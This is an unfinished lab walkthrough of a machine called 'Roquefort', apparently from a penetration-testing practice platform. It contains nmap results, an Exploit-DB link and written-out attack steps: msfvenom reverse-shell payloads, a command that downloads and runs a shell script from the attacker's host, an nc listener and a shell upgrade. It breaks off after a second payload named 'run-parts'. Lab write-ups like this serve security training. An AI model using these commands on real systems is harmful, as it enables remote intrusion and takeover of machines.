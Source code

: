 # Roquefort (WIP)

## Nmap

```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5b
22/tcp   open   ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp   closed domain
2222/tcp open   ssh     Dropbear sshd 2016.74 (protocol 2.0)
3000/tcp open   ppp?
```

## HTTP

{% embed url="https://www.exploit-db.com/exploits/49383" %}

msfvenom:

```
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.49.196 LPORT=2222 -f raw > shell.sh
```



Host on:

```
sudo python2 -m SimpleHTTPServer 21
```

First run:

```
USERNAME = "test"
PASSWORD = "Password"
HOST_ADDR = '192.168.49.196'
HOST_PORT = 3000
URL = 'http://192.168.196.67:3000'                                                                                                                                                                          
CMD = 'wget http://192.168.49.196:21/shell.sh && bash shell.sh' 
```

Listener:

```
sudo nc -lvp 2222
```

A shell should establish on our listener.

![](<../../.gitbook/assets/image (797).png>)

upgrade the shell.

```
/usr/bin/script -qc /bin/bash /dev/null
```

```
msfvenom -p linux/x64/shell_reverse_tcp RHOST=192.168.49.196 LPORT=2222 -f elf > run-parts
```
